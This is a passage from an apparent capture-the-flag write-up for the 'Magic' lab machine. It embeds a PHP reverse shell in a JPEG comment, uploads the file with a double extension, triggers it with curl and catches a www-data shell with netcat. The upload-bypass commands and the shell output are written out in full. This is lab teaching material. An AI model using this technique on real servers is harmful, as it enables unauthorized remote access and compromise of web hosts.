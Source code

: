 ### Creating The Malicious Image

With `wrjpgcom`, we can insert a [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell) payload into the comment field of the jpeg file.

`wrjpgcom -comment "$(cat sorryfortheshell.php)" 5.jpeg > sorryforthis.php.jpeg`

* The `$()` does a command substitution in bash. Here, it executes the command `cat sorryfortheshell.php` and replaces the `$()` expression with the stdout of the command.

* `5.jpeg` is just an image I downloaded earlier from the website.

### Uploading The Malicious Image

With the upload form we created, we can upload `sorryforthis.php.jpeg` to the Magic machine.

As the returned response is a redirection, we can only see the actual response text if we proxy the request through Burp.

![upload confirmation](images/magic/uploaded.jpg)

### Triggering The Payload

We can trigger the a reverse shell by requesting for the payload file we uploaded.

`curl http://10.10.10.185/images/uploads/sorryforthis.php.jpeg`

And we get a reverse shell for `www-data`.

```
# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.185] 51678
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:07:49 up  2:31,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
